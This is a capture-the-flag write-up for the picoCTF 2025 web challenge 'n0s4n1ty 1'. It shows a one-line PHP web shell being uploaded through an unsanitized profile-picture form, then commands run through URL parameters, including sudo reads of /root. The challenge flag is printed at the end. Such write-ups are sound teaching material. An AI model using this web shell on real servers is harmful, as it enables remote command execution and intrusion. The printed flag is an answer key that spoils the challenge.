


# n0s4n1ty 1 — Web Exploitation, Easy (picoCTF 2025)

- **Competition:** picoCTF 2025
- **Category:** Web Exploitation
- **Difficulty:** Easy
- **Author:** Prince Niyonshuti N.

## Statement

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

## Thought Process

1. First thing I do is check the source element. Nothing suspicious off the bat for me, so I just try uploading a file and clicking upload.


2. Upload succeeds:



3. Now I'm gonna try `/uploads` in the URL:



No permission shown.

4. Opened the hint and it says the file uploaded was not sanitized.
5. I did some reading about sanitizing and it seems like I need to upload a file with system commands. I uploaded `test.php`:

```php
<?php system($_GET['cmd']); ?>
```

And got this:

```
Warning: system(): Cannot execute a blank command in /var/www/html/uploads/test.php on line 1
```

Which means I should be able to run commands with `?cmd=...`.

6. The URL:

```
http://standard-pizzas.picoctf.net:53119/uploads/test.php?cmd=ls
```

Returns:

```
test.php
```

7. Let's try `ls /root`. Using `sudo -l` gives me this:

```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

8. I try:

```
http://standard-pizzas.picoctf.net:59447/uploads/test.php?cmd=sudo+ls+/root
```

I get:

```
flag.txt
```

9. Now I can `cat` the flag:

```
http://standard-pizzas.picoctf.net:59447/uploads/test.php?cmd=sudo+cat+/root/flag.txt
```

Boom, flag.

## Flag

```
picoCTF{wh47_c4n_u_d0_wPHP_123198f1}
```